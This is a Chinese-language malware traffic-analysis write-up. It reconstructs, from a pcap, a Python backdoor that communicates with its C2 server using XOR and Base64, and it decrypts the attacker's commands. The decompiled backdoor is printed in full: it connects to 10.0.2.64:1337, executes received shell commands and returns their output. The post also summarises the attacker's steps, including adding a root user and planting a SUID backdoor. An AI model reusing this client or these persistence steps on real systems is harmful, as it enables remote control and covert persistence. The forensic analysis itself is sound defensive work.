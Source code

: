 ```yaml
---
title: '恶意软件流量分析：基于 Python 的后门与 XOR-Base64 C2 通信'
description: '详细分析使用 XOR 加密和 Base64 编码执行命令的 Python 编译恶意软件，包括网络流量剖析和有效载荷逆向工程'
date: 2025-02-27
tags: ['Malware-analysis', 'Reverse-engineering', 'Network-forensics', 'Python-security', 'xor-encryption', 'base64-encoding','threat-hunting', 'C2-communication']
image: './assets/image-20250227160346860.png'
authors: ['0xd00']
---
```


## 初始信息

捕获网络流量包文件`.pcap`一份，包含异常通信行为

## 流量分析

![导入pcap文件](assets\image-20250227144525368.png)

## 流量过滤

可以看到若干`ssh`流量，`ssh`的传输都是加密的所以先给过滤掉

发现可疑请求路径`/base64_client`

![发现特殊路径](assets\image-20250227150835278.png)

### 异常HTTP会话
```http
GET /base64_client HTTP/1.1
User-Agent: Wget/1.20.3 (linux-gnu)
Accept: */*
Accept-Encoding: identity
Host: 10.0.2.64
Connection: Keep-Alive

HTTP/1.0 200 OK
Server: SimpleHTTP/0.6 Python/3.11.4
Date: Fri, 27 Oct 2023 03:06:00 GMT
Content-type: application/octet-stream
Content-Length: 16181879
Last-Modified: Fri, 27 Oct 2023 03:05:03 GMT
```

查看请求头和响应头可以看到是通过`Wget`从python的`SimpleHTTP`下载文件，这就非常像是攻击者的常用手法

### 文件提取

导出`HTTP`对象进行分析

![导出HTTP对象](assets\image-20250227151245629.png)

![查看追踪数据流](assets\image-20250227151956920.png)

## 逆向工程

### 文件预处理

因为格式看起来可能是`base64`编码，所以尝试进行解码

```bash
cat base64_client | base64 -d > client
binwalk client
```

![解码并判断文件类型](assets\image-20250227152159783.png)

可以确定，这是一个`linux`环境下的`x86`架构可执行文件

```bash
objdump -x client
```

![通过objdump获取更多信息](assets\image-20250227153006517.png)

`pydata`段通常保存`pyc`，由此可以判断此程序通过python编写，可能通过`pyinstaller`打包

![尝试运行](assets\image-20250227153305684.png)

### pyinstaller逆向

尝试运行也可以证明

```bash
python pyinstxtractor.py ./client
```

![使用pyinstxtractor反编译](assets\image-20250227153728901.png)

使用`https://github.com/extremecoders-re/pyinstxtractor.git`来提取`pyc`文件

### 核心代码逆向

接下来尝试使用`uncompyle6`来进行反编译

```bash
uncompyle6 -o client_extracted client_extracted/client.pyc
```

```python
import socket, base64, subprocess, sys
HOST = "10.0.2.64"
PORT = 1337

def xor_crypt(data, key):
    key_length = len(key)
    encrypted_data = []
    for i, byte in enumerate(data):
        encrypted_byte = byte ^ key[i % key_length]
        encrypted_data.append(encrypted_byte)
    else:
        return bytes(encrypted_data)


with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    s.connect((HOST, PORT))
    while True:
        received_data = s.recv(4096).decode("utf-8")
        encoded_image, encoded_command = received_data.split("AAAAAAAAAA")
        key = "MySup3rXoRKeYForCommandandControl".encode("utf-8")
        decrypted_command = xor_crypt(base64.b64decode(encoded_command.encode("utf-8")), key)
        decrypted_command = decrypted_command.decode("utf-8")
        result = subprocess.check_output(decrypted_command, shell=True).decode("utf-8")
        encrypted_result = xor_crypt(result.encode("utf-8"), key)
        encrypted_result_base64 = base64.b64encode(encrypted_result).decode("utf-8")
        separator = "AAAAAAAAAA"
        send = encoded_image + separator + encrypted_result_base64
        s.sendall(send.encode("utf-8"))
```

到这里已经知道了攻击者的流量加密方式：(xor+base编码)、端口(1337)、执行的命令混淆在图片的base64编码重，使用AAAAAAAAAA分割

![在数据流中查找分割字符串](assets\image-20250227155757779.png)

## 攻击链重置

在`wireshark`中过滤`1337`端口，判断攻击者执行的命令

尝试解码全部请求数据，可以看到攻击者用于隐藏操作命令的图片

![CyberChef解码数据1](assets\image-20250227160244152.png)

![CyberChef解码数据2](assets\image-20250227160319723.png)

![CyberChef解码数据3](assets\image-20250227160346860.png)

### 编写解密代码

```python
import re
import base64

file_path = 'data.txt'
xor_key = "MySup3rXoRKeYForCommandandControl"

def xor_decrypt(data, key):
    return ''.join(chr(b ^ ord(key[i % len(key)])) for i, b in enumerate(data))

with open(file_path) as file:
    content = file.read()
    matches = re.findall(r"AAAAAAAAAA(.*?)iVBORw", content)

    for match in matches:
        try:
            decoded_command = base64.b64decode(match)
            print("Decrypted Command:", xor_decrypt(decoded_command, xor_key))
        except Exception as e:
            print("Error decoding command:", e)
```
### 确认攻击者操作序列
![查看解密出的命令](assets\image-20250227162330454.png)


攻击者首先确认了当前用户的身份与权限

浏览历史命令获取更多信息

通过历史命令获取了明文数据库密码

添加了一个具有root权限的用户

制作具有SUID的后门`/usr/bin/passswd`并检查文件权限

使用`md5sum`校验哈希值是否相等

通过定时任务实现其他目标

## 技术指标

| 指标类型   | 具体内容                          |
| ---------- | --------------------------------- |
| C2服务器   | 10.0.2.64:1337                    |
| 加密算法   | XOR + Base64                      |
| 密钥       | MySup3rXoRKeYForCommandandControl |
| 持久化方式 | SUID后门账户、定时任务            |
